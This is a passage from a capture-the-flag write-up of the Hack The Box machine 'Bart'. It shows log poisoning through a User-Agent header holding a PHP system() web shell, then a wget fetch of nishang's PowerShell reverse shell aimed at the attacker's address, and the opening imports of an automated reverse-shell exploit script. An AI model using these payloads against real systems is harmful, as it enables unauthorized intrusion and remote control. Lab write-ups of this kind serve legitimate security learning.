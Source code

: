 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-06-HackTheBox-Bart/2021-09-06-HackTheBox-Bart%2002:37:39.png)

And visiting we got it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-06-HackTheBox-Bart/2021-09-06-HackTheBox-Bart%2002:38:01.png)

Now, we will send a simple cmd

```py
import requests
proxies={'http':'http://127.0.0.1:8080'}
headers={'User-Agent':'0x4rt3mis: <?php system($_REQUEST["cmd"]); ?>'}
r = requests.get('http://internal-01.bart.htb/log/log.php?filename=cmd.php&username=harvey', proxies=proxies, headers=headers)
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-06-HackTheBox-Bart/2021-09-06-HackTheBox-Bart%2002:40:18.png)

We test it, and we got RCE!

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-06-HackTheBox-Bart/2021-09-06-HackTheBox-Bart%2002:40:51.png)

Now, with it, let's get a reverse shell, for it, we'll use the nishang one

```sh
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.20 -Port 4444" >> Invoke-PowerShellTcp.ps1
tail -n1 Invoke-PowerShellTcp.ps1
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-06-HackTheBox-Bart/2021-09-06-HackTheBox-Bart%2007:22:05.png)

We execute and got a reverse shell

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-06-HackTheBox-Bart/2021-09-06-HackTheBox-Bart%2007:23:12.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-06-HackTheBox-Bart/2021-09-06-HackTheBox-Bart%2007:23:05.png)

## Scripting

Now, let's automate it, to get a reverse shell one click to this box

```sh
python3 rev_auto.py -t bart.htb -u harvey -p Password1 -port 5555 -ip 10.10.14.20
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-06-HackTheBox-Bart/2021-09-06-HackTheBox-Bart%2007:54:03.png)

```py
#!/usr/bin/python3
# Date: 2021-09-08
# Exploit Author: 0x4rt3mis
# Hack The Box - Bart
# Auto Reverse Shell

import argparse
import requests
import sys
import os
import socket, telnetlib
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler

```